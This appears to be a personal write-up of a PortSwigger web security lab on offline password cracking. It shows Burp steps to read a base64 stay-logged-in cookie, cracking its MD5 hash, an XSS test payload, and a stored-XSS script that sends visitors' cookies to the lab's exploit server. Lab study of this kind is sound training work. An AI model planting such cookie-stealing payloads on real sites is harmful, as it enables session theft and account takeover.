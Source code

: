 ![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220509223049.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220509223116.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220509223144.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220509223225.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220509223254.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220509223014.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220509222915.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220509222759.png)

### Offline password cracking
- Using stored XSS to retrieve vulnerable "stay-logged-in" cookies which have a Base-64 encoded uname:pword with the pword being an MD5 hash
```bash

This lab stores the user's password hash in a cookie. The lab also contains an XSS vulnerability in the comment functionality. To solve the lab, obtain Carlos's `stay-logged-in` cookie and use it to crack his password. Then, log in as `carlos` and delete his account from the "My account" page.

-   Your credentials: `wiener:peter`
-   Victim's username: `carlos`

Make sure burp proxy is enabled in browser, but intecept is off
Login with wiener:peter and with the "Stay logged in" box checked
Go to: Proxy
HTTP history
Go to the "stay-logged-in" GET request
Inspector (on right side) > Request Cookies > click drop down menu for "stay-logged-in"

wiener:51dc30ddc473d43a6011e9ebba6ca770

Put the '51dc30ddc473d43a6011e9ebba6ca770' into crackstation.net

wiener:peter

Test for XSS

<img src=1 onerror=alert(1) />

Success for stored XSS

Go to Exploit Server and copy exploit server link excluding 'exploit'
Place it in a script tag and when someone clicks the "view post" section their cookie should be revealed which can be decoded

<script>document.location='https://exploit-ac681fd91ffd6f2dc0490d9a01ca0039.web-security-academy.net/'+document.cookie</script>

Go back to exploit server and check the logs

```
